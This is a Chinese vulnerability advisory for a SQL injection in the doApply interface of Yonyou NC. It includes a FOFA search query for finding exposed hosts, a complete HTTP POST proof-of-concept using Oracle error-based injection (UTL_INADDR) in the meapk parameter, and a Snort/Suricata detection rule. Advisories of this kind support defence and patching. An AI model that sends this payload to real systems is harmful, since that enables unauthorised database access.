

# 用友NC doApply接口存在SQL注入漏洞

用友NC doApply接口存在SQL注入漏洞

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   app=&quot;用友-UFIDA-NC&quot;

**POC/EXP：**

**step1**  **Oracle SQL 注入探测**

```
POST /portal/pt/mtapptimeline/doApply HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Content-Length: 225
Content-Type: application/x-www-form-urlencoded

pageId=login&meapk=l' AND 7722=UTL_INADDR.GET_HOST_ADDRESS(CHR(113)||CHR(122)||CHR(106)||CHR(98)||CHR(113)||(SELECT (CASE WHEN (7722=7722) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(120)||CHR (120)||CHR(98)||CHR(113))-- Jvzs
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"用友NC - doApply接口 meapk SQL注入漏洞 (UTL_INADDR报错注入)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/portal/pt/mtapptimeline/doApply";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"meapk="; nocase;
        content:"UTL_INADDR"; nocase; distance:0; within:100;
        content:"GET_HOST_ADDRESS"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "用友NC",
        vulnerability_type "SQL Injection (Error-based, Oracle)",
        severity "high";
    classtype:web-application-attack;
    sid:1000837;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
